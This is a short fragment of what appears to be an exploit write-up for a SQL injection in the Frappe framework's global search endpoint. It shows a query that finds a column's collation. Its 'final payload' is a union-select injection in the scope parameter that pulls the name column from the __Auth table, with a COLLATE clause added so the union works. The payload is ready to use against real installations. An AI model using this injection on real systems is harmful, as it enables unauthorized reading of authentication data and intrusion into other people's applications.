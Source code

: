 Find out the collation of the columns in the __global_search table. 
Check for `utf8mb4_general_ci`

there are collations like "utf8mb4_general_ci" that are case-insensitive (indicated by the "ci" at the end of the collation name). These collations will not take the case into consideration when comparing values

```
SELECT COLLATION_NAME 
FROM information_schema.columns 
WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name";
```

![](https://i.imgur.com/l5sygaS.png)


The final payload
```
cmd=frappe.utils.global_search.web_search&text=text_test&scope=testscope" union select 1,2,3,4, name COLLATE utf8mb4_general_ci FROM __Auth#
```
![](https://i.imgur.com/NdmDO0p.png)
